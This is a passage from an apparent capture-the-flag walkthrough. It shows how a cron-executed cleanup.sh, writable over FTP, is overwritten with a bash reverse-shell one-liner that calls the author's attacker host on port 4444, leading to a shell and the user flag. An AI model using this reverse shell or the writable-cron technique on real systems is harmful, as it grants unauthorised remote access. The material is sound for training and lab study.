 We can therefore say that the `cleanup.sh` script is run as a scheduled cron job.  Since we can modify this file through the FTP server, we can establish a connection to our attacker machine using netcat.  Firstly, we have to create a modified `cleanup.sh` script with our reverse shellcode.  In this tutorial, we will use a bash one-liner, but it is important to note that there are a multitude of ways to accomplish this.

```console
$ cat > clean.sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.1.103/4444 0>&1
```

This will call out to `10.8.1.103` (my attacker machine) on port 4444 and redirect any error to `0>&1`.  Now we need to upload our script to the FTP server.  We do this using the `put` command:

![](/assets/posts/20220630/put_clean_sh.png)

We also need to open a netcat listener to ensure the script can establish a connection with our machine.  After a few minutes, we get a reverse shell on the victim machine:

![](/assets/posts/20220630/reverse_shell.png)

Subsequently, we can retrieve the `user.txt` file from the `namelessone` user's `/home` directory:

![](/assets/posts/20220630/user_txt.png)
